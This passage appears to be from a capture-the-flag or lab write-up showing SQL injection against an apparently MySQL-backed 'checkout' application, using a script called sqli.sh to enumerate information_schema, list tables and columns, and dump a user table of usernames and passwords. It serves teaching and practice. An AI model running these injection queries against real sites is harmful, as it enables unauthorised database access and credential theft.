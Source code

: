 Then we can see if we can get the available database names. Remember that this database is probably MySQL because the `#` comment is working.


```bash
chmod +x sqli.sh
SELECT="group_concat(schema_name)"   \
FROM="information_schema.schemata"   \
	./sqli.sh
```
{:.nolineno}
>
```
information_schema,checkout
```
{:.nolineno}

There is a database called **checkout** that we should explore. Let's find the names of its tables.

```bash
SELECT="group_concat(table_name)"   \
FROM="information_schema.tables"    \
WHERE="table_schema='checkout'"     \
	./sqli.sh
```
{:.nolineno}
>
```
user,product
```
{:.nolineno}

The _user_ table seems interesting. Let's find the column names and dump the table contents.

```bash
SELECT="group_concat(column_name)"   \
FROM="information_schema.columns"    \
WHERE="table_name='user'"            \
	./sqli.sh
```
{:.nolineno}
>
```
id,username,password
```
{:.nolineno}

```bash
SELECT="group_concat(concat(id,0x7c,username,0x7c,password))" \
FROM="checkout.user" \
	./sqli.sh
```
{:.nolineno}
>
```
1|james_mason|[REDACTED]
```
{:.nolineno}
